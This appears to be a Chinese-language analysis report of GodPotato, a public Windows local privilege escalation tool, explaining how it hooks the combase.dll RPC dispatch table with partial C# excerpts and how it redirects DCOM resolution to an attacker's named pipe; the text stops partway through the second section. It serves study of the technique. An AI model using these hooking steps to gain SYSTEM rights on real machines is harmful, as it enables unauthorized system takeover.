

repository: crootkit/crootkit.github.io · page: Windows internel/提权/doc_analysis/GodPotato/GodPotato_analysis/index.html · generator: mkdocs

# GodPotato 项目分析报告

## 项目概述

GodPotato是一个Windows本地提权工具，基于DCOM/COM机制实现权限提升。该项目通过Hook RPC运行时库(combase.dll)中的函数，结合DCOM对象引用(OBJREF)构造和命名管道模拟，实现从普通用户权限提升到SYSTEM权限。

**项目来源**: https://github.com/BeichenDream/GodPotato
**适用系统**: Windows 2012-2019, Windows 8-10
**开发语言**: C# (.NET Framework 2.0)
**核心依赖**: SharpToken (令牌操作库)

---

## 功能分析

### 功能1: RPC运行时库Hook

#### 功能目的
通过修改combase.dll中的RPC服务器接口分发表(Dispatch Table)，将特定的RPC函数调用重定向到攻击者控制的代码，从而控制DCOM连接解析过程。

#### 实现方式

**代码位置**: [`NativeAPI/GodPotatoContext.cs`](GodPotato/NativeAPI/GodPotatoContext.cs:131-175)

```csharp
protected void InitContext() {
    ProcessModuleCollection processModules = Process.GetCurrentProcess().Modules;
    foreach (ProcessModule processModule in processModules)
    {
        if (processModule.ModuleName != null && processModule.ModuleName.ToLower() == "combase.dll")
        {
            CombaseModule = processModule.BaseAddress;
            // 搜索特定RPC接口
            var s = Sunday.Search(dllContent, patternStream.ToArray());
            // 获取分发表指针
            RPC_SERVER_INTERFACE rpcServerInterface = (RPC_SERVER_INTERFACE)Marshal.PtrToStructure(...);
            MIDL_SERVER_INFO midlServerInfo = (MIDL_SERVER_INFO)Marshal.PtrToStructure(...);
            DispatchTablePtr = midlServerInfo.DispatchTable;
            UseProtseqFunctionPtr = dispatchTable[0];
        }
    }
}
```

**Hook实现**: [`NativeAPI/GodPotatoContext.cs`](GodPotato/NativeAPI/GodPotatoContext.cs:281-287)

```csharp
public void HookRPC()
{
    uint old;
    VirtualProtect(DispatchTablePtr, (uint)(IntPtr.Size * dispatchTable.Length), 0x04, out old);
    Marshal.WriteIntPtr(DispatchTablePtr, Marshal.GetFunctionPointerForDelegate(useProtseqDelegate));
    IsHook = true;
}
```

**技术细节**:
1. 搜索combase.dll中的特定RPC接口GUID: `18f70770-8e64-11cf-9af1-0020af6e72f4` (IObjectExporter/OXID解析器接口)
2. 解析RPC_SERVER_INTERFACE结构获取分发表
3. 使用`VirtualProtect`修改内存保护属性为可写(0x04 = PAGE_READWRITE)
4. 将分发表第一个函数指针替换为自定义函数

**微软官方文档说明**:
根据[COM, DCOM, and Type Libraries文档](https://learn.microsoft.com/windows/win32/midl/com-dcom-and-type-libraries):
- DCOM使用RPC实现分布式组件对象通信
- COM接口定义了对象的身份和外部特征
- 客户端通过接口获取对象的方法和数据访问权限

---

### 功能2: 自定义RPC端点解析

#### 功能目的
当Hook生效后，控制RPC端点解析过程，将DCOM连接请求重定向到攻击者创建的命名管道，而非原始目标。
